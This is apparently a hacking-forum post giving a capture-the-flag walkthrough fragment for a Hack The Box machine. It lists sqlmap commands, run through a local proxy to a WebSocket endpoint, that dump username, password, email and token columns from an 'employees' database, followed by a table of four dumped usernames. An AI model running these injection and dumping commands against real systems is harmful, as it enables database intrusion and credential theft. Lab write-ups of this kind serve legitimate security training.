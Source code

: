 \-- Run sqlmap on localhost:5000 which will proxyes to the WebSocket ws://gym.crossfit.htb/ws/ --  
  
  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --dbs --level 5 --risk 3  
  
  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "employees" -T employees -C username --dump  
  
  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "employees" -T employees -C password --dump  
  
  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "employees" -T employees -C email --dump  
  
  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "employees" -T employees -C email,token --dump --fresh-queries --threads 10  
  
  
  
\------------------------------------------------------------------  
  
  
  
\-- Results of the dump of the columns of the Employes db --  
  
  
  
Database: employees   
  
Table: employees  
  
\[4 entries\]  
  
+---------------+  
  
| username      |  
  
+---------------+  
  
| administrator |  
  
| jparker      |  
  
| mwilliams    |  
  
| wsmith        |  
  
+---------------+  
  
  
  